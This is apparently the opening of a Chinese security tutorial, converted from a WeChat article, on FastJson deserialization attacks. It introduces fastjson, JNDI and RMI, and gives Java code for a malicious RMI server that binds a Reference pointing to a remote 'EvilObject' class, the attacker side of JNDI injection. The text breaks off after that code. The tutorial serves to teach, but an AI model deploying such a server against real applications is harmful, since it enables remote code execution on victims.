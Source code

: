 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/V_gPNfryXHjWfluuJyPv7Q)

**1.FastJson 简介**
-----------------

fastjson.jar 包原始下载地址：  

```
https://github.com/alibaba/fastjson
```

fastjson 用于将 Java Bean 序列化为 JSON 字符串，也可以从 JSON 字符串反序列化到 JavaBean。fastjson.jar 是阿里开发的一款专门用于 Java 开发的包，可以方便的实现 json 对象与 JavaBean 对象的转换，实现 JavaBean 对象与 json 字符串的转换，实现 json 对象与 json 字符串的转换。除了这个 fastjson 以外，还有 Google 开发的 Gson 包，其他形式的如 net.sf.json 包，都可以实现 json 的转换。方法名称不同而已，最后的实现结果都是一样的。  

```
将json字符串转化为json对象
在net.sf.json中是这么做的
JSONObject obj = new JSONObject().fromObject(jsonStr);//将json字符串转换为json对象
在fastjson中是这么做的
JSONObject obj=JSON.parseObject(jsonStr);//将json字符串转换为json对象
```

### **1.1 JNDI**

JNDI 是 Java 命名与目录接口（Java Naming and Directory Interface），在 J2EE 规范中是重要的规范之一。JNDI 提供统一的客户端 API，为开发人员提供了查找和访问各种命名和目录服务的通用、统一的接口，可以用来定位用户、网络、机器、对象和服务等各种资源。比如可以利用 JNDI 再局域网上定位一台打印机，也可以用 JNDI 来定位数据库服务或一个远程 Java 对象。JNDI 底层支持 RMI 远程对象，RMI 注册的服务可以通过 JNDI 接口来访问和调用。  

##### JNDi 是应用程序设计的 Api，JNDI 可以根据名字动态加载数据，支持的服务主要有以下几种：

```
DNS、LDAP、CORBA对象服务、RMI
```

### **1.2 利用 JNDI References 进行注入**

对于这个知识点，我们需要先了解 RMI 的作用。  

首先 RMI（Remote Method Invocation）是专为 Java 环境设计的远程方法调用机制，远程服务器实现具体的 Java 方法并提供接口，客户端本地仅需根据接口类的定义，提供相应的参数即可调用远程方法。RMI 依赖的通信协议为 JRMP(Java Remote Message Protocol ，Java 远程消息交换协议)，该协议为 Java 定制，要求服务端与客户端都为 Java 编写。这个协议就像 HTTP 协议一样，规定了客户端和服务端通信要满足的规范。在 RMI 中对象是通过序列化方式进行编码传输的。RMI 服务端可以直接绑定远程调用的对象以外，还可通过 References 类来绑定一个外部的远程对象，当 RMI 绑定了 References 之后，首先会利用 Referenceable.getReference() 获取绑定对象的引用，并在目录中保存，当客户端使用 lookup 获取对应名字时，会返回 ReferenceWrapper 类的代理文件，然后会调用 getReference() 获取 Reference 类，最终通过 factory 类将 Reference 转换为具体的对象实例。  

**服务端**  

```
import com.sun.jndi.rmi.registry.ReferenceWrapper;
import javax.naming.Reference;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;
public class RMIServer {
 public static void main(String args[]) throws Exception {
 Registry registry = LocateRegistry.createRegistry(1099);
 // Reference需要传入三个参数(className,factory,factoryLocation)
 // 第一个参数随意填写即可，第二个参数填写我们http服务下的类名，第三个参数填写我们的远程地址
 Reference refObj = new Reference("Evil", "EvilObject", "http://127.0.0.1:8000/");
 // ReferenceWrapper包裹Reference类，使其能够通过RMI进行远程访问
 ReferenceWrapper refObjWrapper = new ReferenceWrapper(refObj);
 registry.bind("refObj", refObjWrapper);
 }
}
```
